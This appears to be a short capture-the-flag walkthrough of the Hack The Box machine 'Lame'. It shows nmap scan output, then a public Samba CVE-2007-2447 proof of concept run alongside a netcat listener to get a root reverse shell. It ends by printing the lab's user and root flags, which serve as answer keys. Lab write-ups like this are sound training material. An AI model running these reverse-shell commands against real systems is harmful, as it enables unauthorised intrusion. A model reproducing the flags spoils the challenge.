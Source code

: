 
we scan the ports to see

sudo nmap -sV 10.10.10.3 --top-ports 50
Starting Nmap 7.95 ( https://nmap.org ) at 2025-04-13 21:46 CEST
Nmap scan report for 10.10.10.3
Host is up (0.042s latency).
Not shown: 46 filtered tcp ports (no-response)
PORT    STATE SERVICE     VERSION
21/tcp  open  ftp         vsftpd 2.3.4
22/tcp  open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel


taking a closer look at vsftpd 2.3.4 we see that is has a well known back door and we can use metasploit to exploit it
https://www.exploit-db.com/exploits/17491

we can see that we cant exploit this

Do a deeper scan

sudo nmap -sV -sC 10.10.10.3 --top-ports 100
to find out the version in use

```
PORT    STATE SERVICE     VERSION
21/tcp  open  ftp         vsftpd 2.3.4
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to 10.10.14.11
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      vsFTPd 2.3.4 - secure, fast, stable
|_End of status
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
22/tcp  open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
| ssh-hostkey: 
|   1024 60:0f:cf:e1:c0:5f:6a:74:d6:90:24:fa:c4:d5:6c:cd (DSA)
|_  2048 56:56:24:0f:21:1d:de:a7:2b:ae:61:b1:24:3d:e8:f3 (RSA)
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 3.0.20-Debian (workgroup: WORKGROUP)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
| smb-os-discovery: 
|   OS: Unix (Samba 3.0.20-Debian)
|   Computer name: lame
|   NetBIOS computer name: 
|   Domain name: hackthebox.gr
|   FQDN: lame.hackthebox.gr
|_  System time: 2025-04-13T17:52:35-04:00
|_smb2-time: Protocol negotiation failed (SMB2)
|_clock-skew: mean: 2h00m36s, deviation: 2h49m45s, median: 34s
| smb-security-mode: 
|   account_used: <blank>
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
```

If we do a bit of googling on Samba 3.0.20 we can find a CVE along with a PoC for that CVE
https://github.com/0xKn/CVE-2007-2447?tab=readme-ov-file

What we need to do:

set up netcat  
nc -lvnp 4444


python usermap_script.py 10.10.10.3  139 <LHOST> 4444

We can use the CVE to get a shell that is root where we can directly read user and root flag

50a4e73065068b9399f1c53ea20c4e8c

cc895d679ced279aafcc856f46587681
